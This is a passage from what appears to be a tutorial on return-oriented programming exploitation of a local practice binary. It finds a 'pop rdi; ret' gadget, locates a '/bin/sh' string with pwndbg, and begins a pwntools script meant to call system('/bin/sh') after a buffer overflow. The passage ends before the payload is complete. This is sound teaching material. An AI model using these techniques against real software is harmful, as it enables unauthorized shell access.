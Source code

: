 We can see we got 70 different small pieces of code with its address that we can use but we want that one which can change value of `RDI`. If we look at output above we can see this instruction is what we need.

```bash
0x0000000000401313 : pop rdi ; ret
```

It **pops** (removes) a value from the stack into the **RDI** register. Then it executes a **ret**, which means it will return to the next address on the stack. We know stack follows LIFO (Last In, First Out). **Stack** is like a stack of plates, you add things on top (calls push), you remove things from top only (called pop). The last item you put in is the **first** one you take out that's why it’s called **Last In, First Out (LIFO)**.

Now we need to remember that system function `system@plt` takes pointer of string not the whole string. It means that we cant directly write `/bin/sh` in RDI but we need to put such address that points to string `/bin/sh`. To make things easier we can see if this program has `/bin/sh` string it or not using `pwngdb` command `search`.

```bash
pwndbg> r
Starting program: /home/at0m/rop 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Enter Data - ^C
```

After running program enter `Ctrl+C` to stop program in middle so its running. and then:

```bash
pwndbg> search /bin/sh
Searching for byte: b'/bin/sh'
rop             0x404060 0x68732f6e69622f /* '/bin/sh' */
libc.so.6       0x77efff7cb42f 0x68732f6e69622f /* '/bin/sh' */
```

We can see we got 2 output, Second one is of shared library thats why its not of our use but First one is what we need. So the address that we need is `0x404060`. `0x68732f6e69622f` is hexadecimal representation of ASCII string `/bin/sh` don't confuse it with memory address.

Actually `pwntools` can do all these extracting the address in one line but we are doing it currently for understanding from basics. Writing exploit in python.

```python
#!/usr/bin/python3

from pwn import *

# Load the ELF binary
elf = ELF('./rop')

# Start the vulnerable binary as a process
io = process('./rop')

# ROP gadget: pop value into RDI (first argument in x86-64 calling convention)
pop_rdi = 0x0000000000401313

# Address of the string "/bin/sh" in the binary's .data section
bin_sh = 0x404060

# 'ret' gadget for stack alignment (some systems require 16-byte alignment before calls)
ret = 0x000000000040101a

# Address of the 'system' function in the binary's PLT (Procedure Linkage Table)
system = elf.sym.system

# Build the payload:
# - Overflow buffer with 40 bytes (determined previously)
# - Set up RDI to point to "/bin/sh"
```